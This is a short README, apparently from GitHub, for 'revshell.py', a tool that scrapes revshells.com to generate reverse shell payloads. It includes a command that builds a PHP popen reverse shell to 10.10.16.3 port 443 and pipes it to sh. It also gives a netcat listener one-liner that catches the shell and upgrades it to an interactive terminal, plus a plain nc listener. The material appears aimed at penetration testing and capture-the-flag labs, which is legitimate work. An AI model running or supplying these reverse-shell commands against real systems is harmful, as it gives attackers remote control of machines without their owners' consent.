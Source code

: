 # revshell.py
use selenium with python3 on revshells.com (or docker revshells) to generate shells.

![Peek 2021-10-08 19-51](https://user-images.githubusercontent.com/42157994/136601207-85432e27-c933-4d06-831a-77fbf5e3f603.gif)

revshell command:
```bash
rev_shell.py --ip 10.10.16.3 --port 443 -it 'PHP popen' -os linux -st zsh | sh
```


Listener used (optional):
```bash
stty raw -echo; (echo 'script -qc "/bin/bash" /dev/null';echo pty;echo;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/pkg/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=screen;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 443 && reset
```
Normal listener:
```bash
nc -lvnp 443
```


![image](https://user-images.githubusercontent.com/42157994/136600825-56bb5f2c-a366-450f-bc57-ee3560f49479.png)
